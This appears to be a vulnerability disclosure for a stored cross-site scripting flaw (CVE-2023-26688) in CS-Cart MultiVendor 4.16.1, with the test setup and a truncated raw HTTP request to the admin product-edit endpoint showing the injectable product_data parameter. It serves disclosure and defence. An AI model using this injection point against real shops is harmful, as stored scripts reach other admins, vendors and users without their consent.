



# CVE-2023-26688 - Cross Site Scripting (XSS) vulnerability in CS-Cart MultiVendor 4.16.1
Cross Site Scripting (XSS) vulnerability in CS-Cart MultiVendor 4.16.1 allows remote attackers to run arbitrary code via the product_data parameter of add/edit product in the administration interface.

## Testing Environment
We utilized the official .zip file obtained from the CS-Cart website to perform a default installation of “CS-Cart MultiVendor 4.16.1” with example data. The installation was conducted on a fully patched Ubuntu Server 22.04 running PHP 8.1.2 and Apache/2.4.52.

## Exploitation
An administrator may add/edit a product injecting JavaScript code in its name. For PoC we edited the product below(included in the demo data)



```
POST /admin.php HTTP/1.1
Host: 172.16.85.150
Content-Length: 10157
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.85.150
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPkmuRh12RdczhZ00
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.85.150/admin.php?dispatch=products.update&product_id=12&selected_section=detailed
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: klaro=%7B%22paypal%22%3Atrue%2C%22facebook%22%3Atrue%2C%22pinterest%22%3Atrue%2C%22twitter%22%3Atrue%2C%22yandex%22%3Atrue%2C%22google_maps%22%3Atrue%7D; sid_customer_179e8=bdc0f02d0f9664b4e9f38f9f00f42b50-C; sid_vendor_179e8=0f6a5cca23a94bc5e7aa1fd6ad344858-A; sid_admin_179e8=b5bd24184e18e9a95fc2380471d5b6cc-A
Connection: close

------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="fake"

1
------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="selected_section"

detailed
------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="product_id"

12
------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="product_data[product]"

100g Pants
------WebKitFormBoundaryPkmuRh12RdczhZ00
Content-Disposition: form-data; name="product_data[company_id]"

1
------WebKitFormBoundaryPkmuRh12RdczhZ00—
***TRUNCATED***
```

The code runs on multiple pages seen by other admins, vendors or other users.






